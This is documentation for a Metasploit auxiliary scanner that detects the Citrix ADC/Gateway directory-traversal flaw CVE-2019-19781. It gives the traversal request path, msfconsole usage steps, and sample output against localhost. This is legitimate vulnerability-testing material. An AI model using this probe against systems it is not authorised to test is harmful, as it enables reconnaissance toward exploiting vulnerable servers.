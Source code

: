 ##  Introduction

An issue was discovered in Citrix Application Delivery Controller (ADC) and Gateway 10.5, 11.1, 12.0, 12.1, and 13.0. The vulnerability, tracked as CVE-2019-19781, allows for directory traversal. If exploited, it could allow an unauthenticated attacker to perform arbitrary code execution.

Because vulnerable servers allow for directory traversal, they will accept the request `GET /vpn/../vpns/` and  process it as a request for `GET /vpns/`, a directory that contains PERL scripts that can be targeted to allow for limited file writing on the vulnerable host.

This module checks if a target server is vulnerable by issuing an HTTP GET request for `/vpn/../vpns/cfg/smb.conf`and then checking the response for `global`since this configuration file should contain global variables. If ``global``is found, the server is vulnerable to CVE-2019-19781.

## Verification Steps

1. Install the module as usual

2. Start msfconsole

3. Do: `use auxiliary/scanner/http/citrix_dir_traversal`

4.  Do: `set RHOSTS [IP]`

5. Do: `run`


## Options

1.  `Proxies`  . This option is not set by default.
2.  `RPORT`  . The default setting is  `80`. To use:  `set RPORT [PORT]`
3.  `SSL`  . The default setting is  `false`.
4.  `THREADS`  . The default setting is  `1`.
5.  `VHOST`  . This option is not set by default.

## Scenarios

```
msf5 > use auxiliary/scanner/http/citrix_dir_traversal
msf5 auxiliary(scanner/http/citrix_dir_traversal) > options

Module options (auxiliary/scanner/http/citrix_dir_traversal):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf5 auxiliary(scanner/http/citrix_dir_traversal) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 auxiliary(scanner/http/citrix_dir_traversal) > set rport 8080
rport => 8080
msf5 auxiliary(scanner/http/citrix_dir_traversal) > run

[+] http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf - The target is vulnerable to CVE-2019-19781.
[+] Obtained HTTP response code 200 including "global" for http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf. This means that access to /vpns/cfg/smb.conf was obtained via directory traversal.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/citrix_dir_traversal) > vulns

Vulnerabilities
===============

Timestamp                Host       Name                                                References
---------                ----       ----                                                ----------
2020-01-13 21:15:28 UTC  127.0.0.1  Citrix ADC (NetScaler) Directory Traversal Scanner  CVE-2019-19781,URL-https://nvd.nist.gov/vuln/detail/CVE-2019-19781/,URL-https://support.citrix.com/article/CTX267027/,EDB-47901,EDB-47902,URL-https://www.mdsec.co.uk/2020/01/deep-dive-to-citrix-adc-remote-code-execution-cve-2019-19781/

msf5 auxiliary(scanner/http/citrix_dir_traversal) > set rport 8081
rport => 8081
msf5 auxiliary(scanner/http/citrix_dir_traversal) > run

[-] http://127.0.0.1:8081/vpn/../vpns/cfg/smb.conf - The target is not vulnerable to CVE-2019-19781.
[-] Obtained HTTP response code 404 not including "global" for http://127.0.0.1:8081/vpn/../vpns/cfg/smb.conf.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/citrix_dir_traversal) >
```

##  References

1. <https://nvd.nist.gov/vuln/detail/CVE-2019-19781>

2. <https://support.citrix.com/article/CTX267027>
